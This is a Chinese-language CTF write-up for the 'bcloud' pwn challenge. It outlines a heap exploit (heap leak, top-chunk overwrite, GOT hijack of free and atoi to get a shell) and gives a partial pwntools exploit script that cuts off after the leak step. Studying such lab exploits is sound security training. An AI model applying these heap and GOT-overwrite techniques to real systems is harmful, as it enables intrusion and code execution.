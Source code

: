 ```c
  org = v2;
  host = v4;
  strcpy(v4, v3);
  strcpy(v2, s);
  puts("OKay! Enjoy:)");
  return __readgsdword(0x14u) ^ v5;
}
```

#### 思路
1. 利用init的两个漏洞泄露heap_base、修改top chunk的size
2. 将堆分配到notelist-0x10处
3. 修改free_got为puts_plt泄露puts_got，进而泄露libc_base
4. 修改atoi_got为system函数地址
5. 执行atoi(b'/bin/sh\x00')即可获取shell

这里尝试过修改__malloc_hook为one_gadget，不过失败了

#### exp
```python
from pwn import *

p = process("./bcloud")

context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

elf = ELF("./bcloud")
libc = ELF('/lib32/libc.so.6')

def create(size,content):
        p.recvuntil(b'option--->>\n')
        p.sendline(b'1')
        p.recvuntil(b'Input the length of the note content:\n')
        p.sendline(str(size).encode())
        p.recvuntil(b'Input the content:\n')
        p.sendline(content)

def edit(idx,content):
        p.recvuntil(b'option--->>\n')
        p.sendline(b'3')
        p.recvuntil(b'id:\n')
        p.sendline(str(idx).encode())
        p.recvuntil(b'content:\n')
        p.sendline(content)

def delete(idx):
        p.recvuntil(b'option--->>\n')
        p.sendline(b'4')
        p.recvuntil(b'id:\n')
        p.sendline(str(idx).encode())

p.recvuntil(b'name:\n')
p.send(b'a'*60 + b'b'*4)
p.recvuntil(b'bbbb')
leak = u32(p.recv(4))
heap_base = leak - 8
log.success('heap_base ==>> ' + hex(heap_base))

p.recvuntil(b'Org:\n')
p.send(b'a'*60 + b'c'*4)
p.recvuntil(b'Host:\n')
p.send(b'\xff'*4 + b'a'*60)

```